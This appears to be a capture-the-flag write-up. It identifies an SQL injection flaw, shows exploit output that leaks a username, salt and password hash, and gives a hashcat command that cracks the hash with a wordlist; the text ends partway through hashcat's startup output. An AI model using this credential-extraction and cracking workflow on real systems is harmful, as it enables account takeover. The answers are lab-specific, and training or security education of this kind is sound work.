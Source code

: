 
### To what kind of vulnerability is the application vulnerable?
- **Answer:** SQLi

---

### What's the password?
- **Answer:** secret
- **Steps to Reproduce:** 
    - Run the exploit:

    ```bash
    [+] Salt for password found: 1dac0d92e9fa6bb2
    [+] Username found: mitch
    [+] Email found: admin@admin.com
    [+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
    ```
    - Crack the hash:

    ```bash
    $ hashcat -m 20 hash.txt --wordlist /usr/share/seclists/Passwords/Common-Credentials/best110.txt 
    hashcat (v6.1.1) starting...

    OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
    =============================================================================================================================
    * Device #1: pthread-Intel(R) Core(TM) i7-8550U CPU @ 1.80GHz, 2884/2948 MB (1024 MB allocatable), 1MCU

    Minimum password length supported by kernel: 0
    Maximum password length supported by kernel: 256
    Minimim salt length supported by kernel: 0
    Maximum salt length supported by kernel: 256

    Hashes: 1 digests; 1 unique digests, 1 unique salts
    Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
    Rules: 1

    Applicable optimizers applied:
    * Zero-Byte
    * Early-Skip
    * Not-Iterated
    * Single-Hash
    * Single-Salt
    * Raw-Hash

    ATTENTION! Pure (unoptimized) backend kernels selected.
    Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
    If you want to switch to optimized backend kernels, append -O to your commandline.
    See the above message to find out about the exact limits.
